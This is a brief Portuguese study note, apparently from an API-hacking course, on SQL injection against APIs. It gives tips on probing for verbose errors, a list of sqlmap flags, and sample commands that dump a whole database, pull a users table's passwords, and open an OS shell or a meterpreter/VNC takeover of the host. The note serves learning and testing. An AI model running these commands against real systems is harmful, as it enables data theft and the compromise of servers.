

# SQLi

o autor foi sincero ao dizer que a maioria das APIs são protegidas contra isso, porém a esperança é a última que morre. Antes de colocar um `or 1 == 1, usa uma string qualquer para verificar erros verbosos, pois a maioria desses caracteres comuns em SQLi são sanitizados. E isso pode abrir um alarme na defesa da API, banindo seu token.

# SQLMAP

https://github.com/sqlmapproject/sqlmap#readme

-r request usada para tentar o SQLi, por padrão ele testa todos os parâmetros

-p parametro a ser testado

-dump-all faz o dump de toda a DB

-T tabela a ser dumpada

-C coluna a ser dumpada

-D database a ser dumpada

-os-shell tenta fazer uso de um webshell

-os-pwn tenta usar o meterpreter ou VNC para ownar o host

## exemplos de uso:

sqlmap -r /home/hapihacker/burprequest1 -p password

sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –dump-all

sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –dump -T users -C password -D helpdesk

sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –os-shell

sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –os-pwn

